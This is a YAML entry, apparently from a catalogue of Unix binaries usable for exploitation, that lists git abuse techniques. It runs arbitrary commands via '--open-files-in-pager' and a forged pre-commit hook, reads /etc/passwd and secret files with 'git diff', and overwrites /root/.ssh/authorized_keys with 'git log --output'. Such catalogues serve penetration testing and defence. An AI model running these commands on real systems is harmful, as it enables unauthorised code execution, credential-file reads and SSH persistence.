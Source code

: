```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager argument can be used to run arbitrary commands.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
#      description: This method requires the git config advice.ignoredHook to be false (which it is not by default).
      code: |
        git commit -a -m 'exec /usr/bin/uname -a'
        git log --max-count=1 --pretty=format:"%s"  --output .git/hooks/pre-commit
        git commit --allow-empty -m x
  file-read:
    - description: `git diff` is commonly used to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
---
```

